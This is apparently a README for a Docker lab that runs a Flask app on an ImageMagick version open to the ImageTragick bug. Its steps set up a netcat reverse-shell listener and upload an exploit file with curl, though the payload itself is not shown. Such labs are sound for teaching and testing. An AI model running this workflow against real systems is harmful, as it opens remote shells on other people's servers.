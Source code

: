 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Build a docker image:

        ```
        $ docker build -t imagetragic .
        ```

2. Create a docker container:

        ```
        $ docker run -d --name imagetragic -p 127.0.0.1:8080:8080 imagetragic
        ```

3. Listen for the reverse shell:

        ```
        $ nc -l -n -vvv -p 4443
        ```

4. Edit the contents of `exploit.mvg` so that is uses the correct IP address that `nc` is listening on.

5. Upload exploit to vulnerable application:

        ```
        $ curl -v -F file=@exploit.mvg http://127.0.0.1:8080
        ```

## Links

https://imagetragick.com/

